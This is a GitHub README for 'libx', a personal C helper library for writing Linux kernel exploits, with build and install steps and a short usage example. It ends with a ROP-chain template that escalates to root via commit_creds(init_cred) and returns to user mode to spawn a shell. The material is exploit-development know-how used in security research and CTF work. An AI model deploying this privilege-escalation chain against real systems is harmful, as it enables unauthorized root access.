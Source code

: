 # libx

It's a personal c language library for kernel exploits. 

# Dependencies

```sh
# If you use fuse
sudo apt install fuse libfuse-dev libkeyutils-dev
```

# Usage

Install `libx`
```bash
git clone git@github.com:n132/libx.git
cd libx
make
make install
```


uninstall `libx`
```bash
make clean
make uninstall
```

# Example

```c
//gcc main.c -o ./main -lx -w
#include "libx.h"
int main(){
    libxInit();
}
```

# back2user Template
```c
    p[idx++]  = rdi;
    p[idx++]  = init_cred                   - NO_ASLR_BASE + base;
    p[idx++]  = commit_creds                - NO_ASLR_BASE + base;
    p[idx++]  = swapgs_restore_regs_and_return_to_usermode + 103 - NO_ASLR_BASE + base;
    p[idx++]  = *(size_t*) "RDI";
    p[idx++]  = *(size_t*) "RAX";
    p[idx++]  = shell;
    p[idx++]  = user_cs;
    p[idx++]  = user_rflags;
    p[idx++]  = user_sp;
    p[idx++]  = user_ss;
```




